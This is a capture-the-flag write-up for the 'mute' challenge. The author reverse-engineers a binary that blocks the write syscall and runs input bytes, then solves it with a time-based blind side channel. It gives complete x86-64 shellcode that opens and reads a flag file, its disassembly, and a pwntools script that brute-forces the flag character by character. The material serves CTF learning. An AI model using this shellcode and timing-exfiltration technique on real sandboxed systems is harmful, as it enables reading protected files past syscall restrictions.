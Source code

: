 # Writeup
The challenge gives the mute executable and that's all.
Doing a reverse engineering with IDA, we can note two things:

1- There is a function dropSyscalls which drops every syscalls, except 0x0, 0x2, 0x3, 0x4, 0x5, 0x6, 0x7, 0x8, 0x9, 0xa, 0xb, 0xc and 0x3b.
This means that the syscall 0x1 (write) is forbiden and we cannot write to stdout.

![mute2](https://cloud.githubusercontent.com/assets/1280700/25589772/45f41628-2e84-11e7-98f7-7d6f808be792.png)

2- The executable just reads some bytes from stdin (lines 15-20) and executes it (line 21).

![mute1](https://cloud.githubusercontent.com/assets/1280700/25589768/42ff307e-2e84-11e7-81ac-f932461b2bd7.png)

After noticing that, the first thing that came to my mind was to send a shellcode which reads the flag (I assumed it was
in /home/mute/flag) and does a time-based blind attack. The code tries to guess a character position of the flag. If it
is correct, them takes some time (looping) before exiting. If it is incorrect, it just exits imediately. Actually, the exit
syscall is forbidden, but it does not metter for us because we are only interested in the timing.

```assembly
section .text
    global _start

_start:
;/home/mute/flag
mov r8, 0x67616c662f6574
push r8
mov r8, 0x756d2f656d6f682f
push r8

; syscall open file
mov rdi, rsp ; pop path value
xor rax, rax
add al, 2
xor rsi, rsi ; set O_RDONLY flag
syscall
  
; syscall read file
sub sp, 0xfff
lea rsi, [rsp]
mov rdi, rax
xor rdx, rdx
mov dx, 0xfff; size to read
xor rax, rax
syscall
  
cmp byte [rsi + 1], 0x69
jne exit

;guessed correct? sleep
mov ecx,0
loop1:

inc ecx
cmp ecx, 0xffffffff
jne loop1

mov ecx,0
loop2:

inc ecx
cmp ecx, 0xffffffff
jne loop2

; syscall exit
exit:
xor rax, rax
add al, 60
syscall
```

And the objdump:

```
$ nasm -f elf64 shell.asm ; ld -o shell shell.o; objdump -d shell

shell:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:	49 b8 74 65 2f 66 6c 	movabs $0x67616c662f6574,%r8
  400087:	61 67 00 
  40008a:	41 50                	push   %r8
  40008c:	49 b8 2f 68 6f 6d 65 	movabs $0x756d2f656d6f682f,%r8
  400093:	2f 6d 75 
  400096:	41 50                	push   %r8
  400098:	48 89 e7             	mov    %rsp,%rdi
  40009b:	48 31 c0             	xor    %rax,%rax
  40009e:	04 02                	add    $0x2,%al
  4000a0:	48 31 f6             	xor    %rsi,%rsi
  4000a3:	0f 05                	syscall 
  4000a5:	66 81 ec ff 0f       	sub    $0xfff,%sp
  4000aa:	48 8d 34 24          	lea    (%rsp),%rsi
  4000ae:	48 89 c7             	mov    %rax,%rdi
  4000b1:	48 31 d2             	xor    %rdx,%rdx
  4000b4:	66 ba ff 0f          	mov    $0xfff,%dx
  4000b8:	48 31 c0             	xor    %rax,%rax
  4000bb:	0f 05                	syscall 
  4000bd:	80 7e 01 69          	cmpb   $0x69,0x1(%rsi)
  4000c1:	75 18                	jne    4000db <exit>
  4000c3:	b9 00 00 00 00       	mov    $0x0,%ecx

00000000004000c8 <loop1>:
  4000c8:	ff c1                	inc    %ecx
  4000ca:	83 f9 ff             	cmp    $0xffffffff,%ecx
  4000cd:	75 f9                	jne    4000c8 <loop1>
  4000cf:	b9 00 00 00 00       	mov    $0x0,%ecx

00000000004000d4 <loop2>:
  4000d4:	ff c1                	inc    %ecx
  4000d6:	83 f9 ff             	cmp    $0xffffffff,%ecx
  4000d9:	75 f9                	jne    4000d4 <loop2>

00000000004000db <exit>:
  4000db:	48 31 c0             	xor    %rax,%rax
  4000de:	04 3c                	add    $0x3c,%al
  4000e0:	0f 05                	syscall
```

Taking the bytes of this shellcode, I made a python script to do this blind attack. The script sends the same bytes of 
the shellcode above, but replacing the corresponding guessing position and character (*cmp byte [rsi + 1], 0x69*).

```python
from pwn import *
import string
from datetime import datetime
import os

context.log_level = 'error'

shell = "\\x49\\xb8\\x74\\x65\\x2f\\x66\\x6c\\x61\\x67\\x00\\x41\\x50\\x49\\xb8\\x2f\\x68\\x6f\\x6d\\x65\\x2f\\x6d\\x75\\x41\\x50\\x48\\x89\\xe7\\x48\\x31\\xc0\\x04\\x02\\x48\\x31\\xf6\\x0f\\x05\\x66\\x81\\xec\\xff\\x0f\\x48\\x8d\\x34\\x24\\x48\\x89\\xc7\\x48\\x31\\xd2\\x66\\xba\\xff\\x0f\\x48\\x31\\xc0\\x0f\\x05\\x80\\x7e\\x01\\x68\\x75\\x18\\xb9\\x00\\x00\\x00\\x00\\xff\\xc1\\x83\\xf9\\xff\\x75\\xf9\\xb9\\x00\\x00\\x00\\x00\\xff\\xc1\\x83\\xf9\\xff\\x75\\xf9\\x48\\x31\\xc0\\x04\\x3c\\x0f\\x05"

flag = ""
i = 1

while True:
    for c in string.printable:
        try:
            current_shell = shell.replace("\\x01\\x68", "\\x" + chr(i).encode("hex") + "\\x" + c.encode("hex"))
            start = datetime.now()
            os.popen("python -c 'print(\"" + current_shell + "\" + \"\\x00\"*4009)' | ./mute") # nc mute_9c1e11b344369be9b6ae0caeec20feb8.quals.shallweplayaga.me 443
            total = (datetime.now() - start).seconds
            if total >= 2:
                i += 1
                flag += c
                print("FOUND!!!!!")
                print(flag)
        except:
            pass
```

Locally it worked fine! Now it was time to try remotely. However, it was missing just about 10 minutes for the end of the competition.
Although I did not submit the flag in time, I consider that I solved this challenge. I took a look at this challenge just 2 
hours before the end of the competition and when I was with about half of the flag, the time went over and the server came 
down :(
**The flag is: I tXXXXXXXXXat I'd do was, I'd pXXXXXX**

where **X** are the missing characters. It may have some wrong characters because of wrong estimation of time, but nothing that a double check could not solve.

